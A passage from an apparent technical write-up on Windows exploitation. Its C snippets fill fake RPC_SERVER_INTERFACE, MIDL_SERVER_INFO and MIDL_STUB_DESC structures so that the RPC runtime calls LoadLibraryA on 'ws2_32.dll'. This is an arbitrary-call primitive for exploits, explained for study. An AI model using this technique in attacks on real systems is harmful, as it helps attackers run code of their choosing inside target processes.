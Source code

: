 
The `RPC_MESSAGE` structure points to a `RPC_SERVER_INTERFACE`:

```c
// RPC_SERVER_INTERFACE - offset 0x100
index = 0x20;
rpcStructs[index] = 0x60;	 index += 10; // was 3										// 0x00 - Length - 0x60
rpcStructs[index] = (LONGLONG)buffer + 0x200; index += 1;								// 0x50 - InterpreterInfo - ptr to MIDL_SERVER_INFO
rpcStructs[index] = 0x4000000;															// 0x58 - Flags - 0x4000000
```

And this points to a `MIDL_SERVER_INFO` structure:

```c
// MIDL_SERVER_INFO - offset 0x200
index = 0x40;
rpcStructs[index] = (LONGLONG)buffer + 0x300; index += 1;								// 0x00 - pStubDesc - ptr to MIDL_STUB_DESC
rpcStructs[index] = (LONGLONG)&loadLib; index += 1;										// 0x08 - DispatchTable - ptr to function to call
rpcStructs[index] = (LONGLONG)buffer + 0x900; index += 1;								// 0x10 - ProcString - ptr to offset +0x900
rpcStructs[index] = (LONGLONG)buffer + 0x960;											// 0x18 - FmtStringOffset
```

Within this code, there is a `DispatchTable` field which points to the `LoadLibraryA` API. There is also a `ProcString` field that points to a really complicated buffer which I will show last. This sturct also points to a `MIDL_STUB_DESC` structure:

```c
// MIDL_STUB_DESC - offset 0x300
index = 0x61;
rpcStructs[index] = (LONGLONG)&malloc; index += 1;										// 0x08 - Allocator - ptr to malloc()
rpcStructs[index] = (LONGLONG)&free; index += 6;										// 0x10 - Deallocator - ptr to free()
rpcStructs[index] = (LONGLONG)buffer + 0x9a0; index += 1;								// 0x40 - pFormatTypes - offset 0x9a0
rpcStructs[index] = (LONGLONG)0x0005000200000000;										// 0x4c - Version - 0x50002
```

The arguments for the API call are pointed to by the `RPC_MESSAGE` struct:

```c
// arguments buffer -  offset 0x800
char arg[] = "ws2_32.dll";

index = 0x100;
rpcStructs[index] = (LONGLONG)&arg; index += 1;											// argument 1
rpcStructs[index] = 0x2222222222222222; index += 1;										// argument 2
rpcStructs[index] = 0x3333333333333333; index += 1;										// argument 3
rpcStructs[index] = 0x4444444444444444; index += 1;										// argument 4
rpcStructs[index] = 0x5555555555555555; index += 1;										// argument 5
rpcStructs[index] = 0x6666666666666666; index += 1;										// argument 6
```
